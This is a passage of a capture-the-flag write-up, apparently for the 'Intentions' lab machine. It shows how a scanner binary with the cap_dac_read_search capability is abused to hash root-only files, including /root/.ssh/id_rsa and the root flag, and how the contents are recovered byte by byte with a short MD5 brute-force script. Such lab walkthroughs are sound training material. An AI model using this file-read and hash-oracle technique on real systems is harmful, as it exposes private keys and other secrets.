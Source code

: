 ```
        Specific hash to check against. Not compatible with -h
```

Interesting. This file isn't an SUID binary, so let's check its capabilities:

```
greg@intentions:/opt/scanner$ getcap scanner
scanner cap_dac_read_search=ep
```

This basically means that the `scanner` binary can read **any file in the system**. Since this file can read any file and tell us the hash of this file, we can use it to check whether files exist too.&#x20;

```
greg@intentions:/opt/scanner$ ./scanner -p -s 2 -c /root/.ssh/id_rsa
[DEBUG] /root/.ssh/id_rsa has hash 1cd5f0fae381ed1b066b927995b7ef60
greg@intentions:/opt/scanner$ ./scanner -p -s 2 -c /root/root.txt   
[DEBUG] /root/root.txt has hash adcea6f929ae419d4134072be81fb3ab
```

The binary also allows us to specify the length of the bytes to check, meaning that we can guess each character one by one. For example, when we use `-l 1`:

```
greg@intentions:/opt/scanner$ ./scanner -p -s 2 -c /root/root.txt -l 1
[DEBUG] /root/root.txt has hash eccbc87e4b5ce2fe28308fd9f2a7baf3
```

The resultant hash is crackable on CrackStation to give the first character of the flag:

<figure><img src="../../.gitbook/assets/image (49) (1).png" alt=""><figcaption></figcaption></figure>

We can slowly brute force the `root` flag out character by character. The user flag was 33 characters, so this should be the same. I took the script from my RainyDay writeup and modified it a bit:

```python
import hashlib
import string

def md5hash(s):
    return hashlib.md5(s.encode()).hexdigest()

given_hash = "eccbc87e4b5ce2fe28308fd9f2a7baf3"
flag = ""
charset = string.printable

for c in charset:
    test_flag = flag + c
    test_hash = md5hash(test_flag)
    if test_hash == given_hash:
        print("Flag is:", test_flag)
        break
```
